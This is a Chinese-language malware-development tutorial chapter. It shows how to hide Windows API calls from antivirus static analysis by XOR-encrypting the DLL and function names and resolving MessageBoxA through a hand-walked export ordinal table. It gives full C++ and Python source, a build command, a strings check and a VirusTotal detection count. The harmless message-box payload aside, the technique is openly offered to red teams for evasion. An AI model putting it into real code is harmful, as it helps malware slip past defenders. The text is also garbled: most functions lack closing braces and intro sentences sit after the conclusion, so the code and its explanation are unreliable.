








\newpage
\subsection{AV 引擎规避技术（第 4 部分）：简单的 C++ 示例}

﷽

{width="80%"}

这一节是我自我研究另一个 AV 规避技巧的结果，一个如何在简单的 C++ 恶意软件中绕过 AV 引擎的示例。

这个技巧关于你如何把 Windows API 调用从静态分析中隐藏起来。

当你想要与 Windows 操作系统交互时，你就需要从你的代码中调用 Windows API，例如来自 `user32.dll` 的 `MessageBoxA` 或其他任何 API。

### 什么是序号（ordinal）？

DLL 导出的每个函数都由一个数字序号标识，并且可选地带一个名称。

在我的一篇文章中，我写了一个简单的 python 脚本，用于枚举所提供 DLL 的导出函数（`dll-def.py`）：

```python
import pefile
import sys
import os.path

dll = pefile.PE(sys.argv[1])
dll_basename = os.path.splitext(sys.argv[1])[0]

try:
  with open(sys.argv[1]
  .split("/")[-1]
  .replace(".dll", ".def"), "w") as f:
  f.write("EXPORTS\n")
  for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
  if export.name:
  f.write(
  '{}={}.{} @{}\n'.format(
  export.name.decode(), 
  dll_basename, 
  export.name.decode(), 
  export.ordinal))
except:
  print ("failed to create .def file :(")
else:
  print ("successfully create .def file :)")
```

我们来对 `user32.dll` 运行它：

```bash
python3 dll-def.py user32.dll
```

{width="80%"}

{width="80%"}

如你所见，例如 `MessageBoxA` 的序号是 2039，`MessageBoxW` 的序号是 2046。

### 实战示例

序号在 DLL 的每次发布中都可能改变。

但这个做法与我们隐藏代码中 API 名称的目标相悖，因为我们在查找过程中必须做字符串比较。

这项技术非常简单。

首先，我用了我的一篇文章里的一个技巧（也已收录进本书）：

```cpp
// encrypted function name (MessageBoxA)
unsigned char s_mb[] = { 0x20, 0x1c, 0x0, 0x6, 0x11, 0x2, 
0x17, 0x31, 0xa, 0x1b, 0x33 };

// encrypted module name (user32.dll)
unsigned char s_dll[] = { 0x18, 0xa, 0x16, 0x7, 0x43, 
0x57, 0x5c, 0x17, 0x9, 0xf };

// key
char s_key[] = "mysupersecretkey";

// XOR decrypt
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
  if (j == key_len - 1) j = 0;
  data[i] = data[i] ^ key[j];
  j++;
  }

```

并用 python 脚本 XOR 加密我们的函数名：

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
  key = str(key)
  l = len(key)
  output_str = ""

  for i in range(len(data)):
  current = data[i]
  current_key = key[i % len(key)]
  ordd = lambda x: x if isinstance(x, int) else ord(x)
  output_str += chr(ordd(current) ^ ord(current_key))
  return output_str

## encrypting
def xor_encrypt(data, key):
  ciphertext = xor(data, key)
  ciphertext = '{ 0x' + ', 0x'.
  join(hex(ord(x))[2:] for x in ciphertext) + ' };'
  print (ciphertext)
  return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "mysupersecretkey"

ciphertext, p_key = xor_encrypt("user32.dll", 
my_secret_key)
ciphertext, p_key = xor_encrypt("MessageBoxA", 
my_secret_key)
```

所以在我们的例子里，我们加密了 `user32.dll` 和 `MessageBoxA` 这两个字符串。

一般来说，我们用名称指针表（NPT）和导出序号表（EOT）来查找导出序号。

所以我用了这个函数来获取导出目录表：

```cpp
// get export directory table
PIMAGE_EXPORT_DIRECTORY getEDT(HMODULE module) {
  PBYTE base; // base address of module
  PIMAGE_FILE_HEADER img_file_header; // COFF file header
  PIMAGE_EXPORT_DIRECTORY edt; // export directory table
  DWORD rva; // relative virtual address of EDT
  PIMAGE_DOS_HEADER img_dos_header; // MS-DOS stub
  PIMAGE_OPTIONAL_HEADER img_opt_header; // "optional" header
  PDWORD sig;  // PE signature

  // Start at the base of the module. 
  // The MS-DOS stub begins there.
  base = (PBYTE)module;
  img_dos_header = (PIMAGE_DOS_HEADER)module;

  // Get the PE signature and verify it.
  sig = (DWORD*)(base + img_dos_header->e_lfanew);
  if (IMAGE_NT_SIGNATURE != *sig) {
  // bad signature -- invalid image or module handle
  return NULL;
  }

  // Get the COFF file header.
  img_file_header = (PIMAGE_FILE_HEADER)(sig + 1);

  // get the "optional" header 
  // (it's not actually optional for executables).
  img_opt_header = (PIMAGE_OPTIONAL_HEADER)(img_file_header + 1);

  // finally, get the export directory table.
  if (IMAGE_DIRECTORY_ENTRY_EXPORT 
  >= img_opt_header->
  NumberOfRvaAndSizes) {
  // this image doesn't have an 
  // export directory table.
  return NULL;
  }
  rva = img_opt_header->
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress;
  edt = (PIMAGE_EXPORT_DIRECTORY)(base + rva);

  return edt;

```

然后在模块的名称指针表（NPT）中二分查找指定的函数：

```cpp
// binary search
DWORD findFuncB(PDWORD npt, DWORD size, PBYTE base, LPCSTR proc) {
  INT  cmp;
  DWORD max;
  DWORD mid;
  DWORD min;

  min = 0;
  max = size - 1;

  while (min <= max) {
  mid = (min + max) >> 1;
  cmp = strcmp((LPCSTR)(npt[mid] + base), proc);

  if (cmp < 0) {
  min = mid + 1;
  } else if (cmp > 0) {
  max = mid - 1;
  } else {
  return mid;
  }
  }
  return -1;

```

如你所见，这只是一个便利函数，对 NPT 做二分查找。

最后，获取序号：

```cpp
// get func ordinal
DWORD getFuncOrd(HMODULE module, LPCSTR proc) {
  PBYTE base; // module base address
  PIMAGE_EXPORT_DIRECTORY edt; // export directory table
  PWORD eot;  // export ordinal table (EOT)
  DWORD i;  // index into NPT and/or EOT
  PDWORD npt;  // name pointer table (NPT)

  base = (PBYTE)module;

  // get the export directory table, 
  // from which we can find the name pointer
  // table and export ordinal table.
  edt = getEDT(module);

  // get the name pointer table and 
  // search it for the named procedure.
  npt = (DWORD*)(base + edt->AddressOfNames);
  i = findFuncB(npt, edt->NumberOfNames, base, proc);
  if (-1 == i) {
  // the procedure was not found 
  // in the module's name pointer table.
  return -1;
  }

  // get the export ordinal table.
  eot = (WORD*)(base + edt->AddressOfNameOrdinals);

  // actual ordinal is ordinal 
  // from EOT plus "ordinal base" from EDT.
  return eot[i] + edt->Base;

```

而 `main` 函数的思路（不含错误检查）是：

```cpp
int main(int argc, char* argv[]) {
  XOR((char *) s_dll, sizeof(s_dll), s_key, sizeof(s_key));
  XOR((char *) s_mb, sizeof(s_mb), s_key, sizeof(s_key));
  LoadLibrary((LPCSTR) s_dll)
  HMODULE module = GetModuleHandle((LPCSTR) s_dll);
  DWORD ord = getFuncOrd(module, (LPCSTR) s_mb);
  fnMessageBoxA myMessageBoxA = 
  (fnMessageBoxA)GetProcAddress(
  module, MAKEINTRESOURCE(ord));
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

那么我们这个示例的完整源代码是：

```cpp
/*
 * hack.cpp - Find function from DLL 
 via ordinal. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/18/simple-malware-av-evasion-4.html
*/
#include <stdio.h>
#include "windows.h"

typedef UINT(CALLBACK* fnMessageBoxA)(
  HWND  hWnd,
  LPCSTR lpText,
  LPCSTR lpCaption,
  UINT  uType
);

// encrypted function name (MessageBoxA)
unsigned char s_mb[] = { 0x20, 0x1c, 0x0, 0x6, 0x11, 0x2, 
0x17, 0x31, 0xa, 0x1b, 0x33 };

// encrypted module name (user32.dll)
unsigned char s_dll[] = { 0x18, 0xa, 0x16, 0x7, 0x43, 
0x57, 0x5c, 0x17, 0x9, 0xf };

// key
char s_key[] = "mysupersecretkey";

// XOR decrypt
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
  if (j == key_len - 1) j = 0;
  data[i] = data[i] ^ key[j];
  j++;
  }

// binary search
DWORD findFuncB(PDWORD npt, DWORD size, PBYTE base, LPCSTR proc) {
  INT  cmp;
  DWORD max;
  DWORD mid;
  DWORD min;

  min = 0;
  max = size - 1;

  while (min <= max) {
  mid = (min + max) >> 1;
  cmp = strcmp((LPCSTR)(npt[mid] + base), proc);

  if (cmp < 0) {
  min = mid + 1;
  } else if (cmp > 0) {
  max = mid - 1;
  } else {
  return mid;
  }
  }
  return -1;

// get export directory table
PIMAGE_EXPORT_DIRECTORY getEDT(HMODULE module) {
  PBYTE base; // base address of module
  PIMAGE_FILE_HEADER img_file_header; // COFF file header
  PIMAGE_EXPORT_DIRECTORY edt; // export directory table
  DWORD rva; // relative virtual address of EDT
  PIMAGE_DOS_HEADER img_dos_header;  // MS-DOS stub
  PIMAGE_OPTIONAL_HEADER  img_opt_header; // "optional" header
  PDWORD sig;  // PE signature

  // start at the base of the module. 
  // The MS-DOS stub begins there.
  base = (PBYTE)module;
  img_dos_header = (PIMAGE_DOS_HEADER)module;

  // get the PE signature and verify it.
  sig = (DWORD*)(base + img_dos_header->e_lfanew);
  if (IMAGE_NT_SIGNATURE != *sig) {
  // bad signature -- invalid image or module handle
  return NULL;
  }

  // get the COFF file header.
  img_file_header = (PIMAGE_FILE_HEADER)(sig + 1);

  // get the "optional" header 
  // (it's not actually optional for executables).
  img_opt_header = (PIMAGE_OPTIONAL_HEADER)
  (img_file_header + 1);

  // Finally, get the export directory table.
  if (IMAGE_DIRECTORY_ENTRY_EXPORT 
  >= img_opt_header->
  NumberOfRvaAndSizes) {
  // this image doesn't have an 
  // export directory table.
  return NULL;
  }
  rva = img_opt_header->
  DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].
  VirtualAddress;
  edt = (PIMAGE_EXPORT_DIRECTORY)(base + rva);

  return edt;

// get func ordinal
DWORD getFuncOrd(HMODULE module, LPCSTR proc) {
  PBYTE base; // module base address
  PIMAGE_EXPORT_DIRECTORY edt;  // export directory table
  PWORD eot;  // export ordinal table (EOT)
  DWORD i;  // index into NPT and/or EOT
  PDWORD npt;  // name pointer table (NPT)

  base = (PBYTE)module;

  // get the export directory table, 
  // from which we can find the name pointer
  // table and export ordinal table.
  edt = getEDT(module);

  // get the name pointer table and 
  // search it for the named procedure.
  npt = (DWORD*)(base + edt->AddressOfNames);
  i = findFuncB(npt, edt->NumberOfNames, base, proc);
  if (-1 == i) {
  // the procedure was not found in 
  // the module's name pointer table.
  return -1;
  }

  // get the export ordinal table.
  eot = (WORD*)(base + edt->AddressOfNameOrdinals);

  // actual ordinal is ordinal 
  // from EOT plus "ordinal base" from EDT.
  return eot[i] + edt->Base;

int main(int argc, char* argv[]) {
  XOR((char *) s_dll, sizeof(s_dll), s_key, sizeof(s_key));
  XOR((char *) s_mb, sizeof(s_mb), s_key, sizeof(s_key));

  if (NULL == LoadLibrary((LPCSTR) s_dll)) {
  printf("failed to load library :( %s\n", s_dll);
  return -2;
  }

  HMODULE module = GetModuleHandle((LPCSTR) s_dll);
  if (NULL == module) {
  printf("failed to get a handle to %s\n", s_dll);
  return -2;
  }

  DWORD ord = getFuncOrd(module, (LPCSTR) s_mb);
  if (-1 == ord) {
  printf("failed to find ordinal %s\n", s_mb);
  return -2;
  }

  fnMessageBoxA myMessageBoxA = 
  (fnMessageBoxA)GetProcAddress(
  module, MAKEINTRESOURCE(ord));
  myMessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;

```

### 演示

我们来编译我们的示例：

```bash
i686-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings \
-Wint-to-pointer-cast -fno-exceptions \ 
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后运行：

```cmd
.\hack.exe
```

{width="80%"}

为了保证实验的纯粹性，我在 `hack.cpp` 的 `main` 函数中加了一行：

```cpp
//..
DWORD ord = getFuncOrd(module, (LPCSTR) s_mb);
if (-1 == ord) {
  printf("failed to find ordinal %s\n", s_mb);
  return -2;

printf("MessageBoxA ordinal is %d\n", ord);
//..
```

编译并运行：

{width="80%"}

我们可以看到，我们的恶意软件成功找到了正确的序号。完美 :)

字符串搜索结果：

```bash
strings -n 8 hack.exe | grep MessageBox
```

{width="80%"}

如你所见，strings 检查里没有 `MessageBox`。

所以，这就是你把 Windows API 调用从静态分析中隐藏起来的方法。

{width="80%"}

我们把它上传到 VirusTotal：

<https://www.virustotal.com/gui/file/f75d7f5f33fc5c5e03ca22bbeda0454cd9b6aab3009fdd109433bc6208f3d301/detection>

所以 68 个 AV 引擎中有 6 个把我们的文件检测为恶意。

我希望这篇文章能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

如果你在代码中直接指定这些调用，那么编译器就会把 `MessageBoxA` 或所有需要的 API 放进你的 PE 的导入表中。

这会给恶意软件分析师一些线索，让他们更仔细地调查你的恶意软件。

同样地，函数也可以按序号或按名称从 DLL 导入。

序号表示该函数地址指针在 DLL 导出地址表中的位置。

我们来看实战示例。

我们不会把它硬编码在我们的代码中。

我们需要通过遍历列表来查找序号，并做一次字符串比较。

我们可以看到一切都完美工作了。
